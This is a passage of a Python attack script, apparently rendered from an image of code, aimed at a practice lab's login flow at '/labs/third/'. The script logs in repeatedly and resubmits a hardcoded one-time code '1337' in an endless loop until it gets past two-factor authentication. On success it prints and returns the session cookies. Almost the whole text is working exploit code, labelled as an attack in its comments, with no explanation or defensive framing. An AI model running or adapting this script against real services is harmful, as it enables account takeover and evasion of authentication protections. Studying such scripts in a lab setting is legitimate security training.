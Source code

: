 ```python
    
    response = session.post(otp_url, data=otp_data, headers=headers, allow_redirects=False)  # Disable auto redirects
    print(f"DEBUG: OTP submission response status code: {response.status_code}")
    
    return response

# Function to check if the response contains the login page
def is_login_page(response):
    return "Sign in to your account" in response.text or "Login" in response.text

# Function to attempt login and submit the hardcoded OTP until success
def try_until_success():
    otp_str = '1337'  # Hardcoded OTP

    while True:  # Keep trying until success
        session = requests.Session()  # Create a new session object for each attempt
        login_response = login(session)  # Log in before each OTP attempt
        
        if is_login_successful(login_response):
            print("Logged in successfully.")
        else:
            print("Failed to log in.")
            continue

        print(f"Trying OTP: {otp_str}")

        response = submit_otp(session, otp_str)

        # Check if the response is the login page (unsuccessful OTP)
        if is_login_page(response):
            print(f"Unsuccessful OTP attempt, redirected to login page. OTP: {otp_str}")
            continue  # Retry login and OTP submission

        # Check if the response is a redirect (status code 302)
        if response.status_code == 302:
            location_header = response.headers.get('Location', '')
            print(f"Session cookies: {session.cookies.get_dict()}")

            # Check if it successfully bypassed 2FA and landed on the dashboard
            if location_header == '/labs/third/dashboard':
                print(f"Successfully bypassed 2FA with OTP: {otp_str}")
                return session.cookies.get_dict()  # Return session cookies after successful bypass
            elif location_header == '/labs/third/':
                print(f"Failed OTP attempt. Redirected to login. OTP: {otp_str}")
            else:
                print(f"Unexpected redirect location: {location_header}. OTP: {otp_str}")
        else:
            print(f"Received status code {response.status_code}. Retrying...")

# Start the attack to try until success
try_until_success()
```
